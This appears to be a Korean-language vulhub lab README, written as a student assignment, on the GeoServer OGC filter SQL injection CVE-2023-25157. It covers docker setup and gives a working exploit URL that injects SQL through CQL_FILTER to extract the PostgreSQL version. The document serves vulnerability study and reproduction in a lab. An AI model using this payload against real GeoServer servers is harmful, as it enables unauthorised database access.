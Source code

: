 # GeoServer OGC Filter SQL Injection (CVE-2023-25157)

> 화이트햇 스쿨 3기(35반) -  [손예은](https://github.com/ye-nni/)
>> https://github.com/ye-nni/kr-vulhub/tree/main/geoserver/CVE-2023-25157
>> 해당 문서는 최종 파일이 아닙니다. 과제 제출 기한 이내에 수정될 수 있으며, 최종 파일은 Pull requests 할 예정입니다.
</br>

### 요약
- GeoServer는 Java로 작성된 오픈 소스 소프트웨어 서버로, 지리공간 데이터를 보고, 편집하고, 공유할 수 있는 기능을 제공합니다.
- GeoServer는 지리정보시스템(GIS) 데이터베이스, 웹 기반 데이터, 개인 데이터세트 등 다양한 소스의 지리공간 데이터를 배포하는 유연하고 효율적인 솔루션으로 설계되었습니다.
- 2.22.1 및 2.21.4 이전 버전에서는 OGC(Open Geospatial Consortium) 표준에서 정의한 필터 및 함수 표현식에서 SQL Injection 문제가 발견되었습니다.

References:
- <https://github.com/murataydemir/CVE-2023-25157-and-CVE-2023-25158>
- <https://github.com/advisories/GHSA-7g5f-wrx8-5ccf>
</br>

### 환경 구성 및 실행
다음 명령어로 테스트 환경에서 GeoServer instance 2.22.1을 실행합니다:
```
docker compose up -d
```
서버가 시작되면 `http://your-ip:8080/geoserver`에서 기본 페이지를 볼 수 있습니다.

</br>

### 테스트
취약점을 익스플로잇하기 전에 먼저 PostGIS 데이터 저장소가 포함된 워크스페이스를 찾아야 합니다. Vulhub의 GeoServer 인스턴스에는 이미 PostGIS 데이터 저장소가 있습니다:
- Workspace name: `vulhub`
- Data store name: `pg`
- Feature type (table) name: `example`
- One of attribute from feature type: `name`

아래 간단한 URL을 통해 서버를 익스플로잇 할 수 있습니다:
```
http://your-ip:8080/geoserver/ows?service=wfs&version=1.0.0&request=GetFeature&typeName=vulhub:example&CQL_FILTER=strStartsWith%28name%2C%27x%27%27%29+%3D+true+and+1%3D%28SELECT+CAST+%28%28SELECT+version()%29+AS+integer%29%29+--+%27%29+%3D+true
```
</br>

### 결과
![](result1.JPG) 
![](result2.JPG)
![](result3.png)

위 사진을 통해 PostgreSQL 버전은 SQL Injection을 통해 GeoServer에서 검색(retrieve)된 것을 알 수 있습니다.
